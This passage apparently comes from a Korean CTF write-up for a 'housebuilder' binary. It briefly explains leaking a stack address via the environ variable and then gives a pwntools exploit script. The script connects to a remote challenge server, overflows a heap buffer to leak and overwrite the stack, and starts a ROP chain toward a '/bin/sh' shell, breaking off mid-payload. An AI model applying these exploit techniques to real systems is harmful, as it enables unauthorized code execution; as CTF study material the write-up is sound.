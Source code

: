 스택의 주소는 <span style="color:SALMON">environ</span> 변수의 값을 읽는 것으로 leak 할 수 있습니다. environ 변수는 스택에 저장된 환경 변수 리스트의 주소를 가리키고 있기 때문에 이를 이용해서 main()의 return address가 저장된 스택 위치를 계산할 수 있습니다.  

**exploit**
```python
from pwn import *

def createHouse(p, name):
    print "create"
    p.sendline('1')
    p.sendlineafter(': ',name)
    p.sendlineafter(': ','1')
    p.sendlineafter(': ','1')
    p.sendlineafter(': ','1')
    print p.recvuntil('> ')

#p = process('./housebuilder')
p = remote('151.236.114.211', 17174)
print p.recvuntil('> ')

createHouse(p, 'a')
createHouse(p, 'b')

env = 0x5da448

# stack leak
p.sendline('2')
p.sendlineafter(': ','0')
p.sendlineafter('> ','2')
payload = "a"*0x400
payload += p64(0)
payload += p64(0x51)    # size
payload += p64(0x10)*3  # rooms, floors, poeples
payload += p64(env)     # name ptr (leak ptr)
payload += p64(8)*3     # name len (leak size), etc.
p.sendlineafter(': ',payload)

p.sendlineafter('> ','4')
p.sendlineafter('> ','3')
p.recvuntil('Name: ')
p.recvuntil('Name: ')
stack = u64(p.recv(8))-0x140
print("stack pointer : "+hex(stack))

# overwrite return address
p.sendline('2')
p.sendlineafter(': ','0')
p.sendlineafter('> ','2')
payload = "a"*0x400     # fill description
payload += p64(0)
payload += p64(0x51)    # size
payload += p64(0x10)*3  # rooms, floors, poeples
payload += p64(env)     # name ptr
payload += p64(8)*3     # name len, etc.
payload += p64(stack)   # description ptr (AW)
p.sendlineafter(': ',payload)
p.sendlineafter('> ','4')

p.sendline('2')
p.sendlineafter(': ','1')
p.sendlineafter('> ','2')

payload = p64(0x41432a)     # pop rdi; pop rbp; ret
payload += p64(stack+0x50)  # rdi ("/bin/sh")
```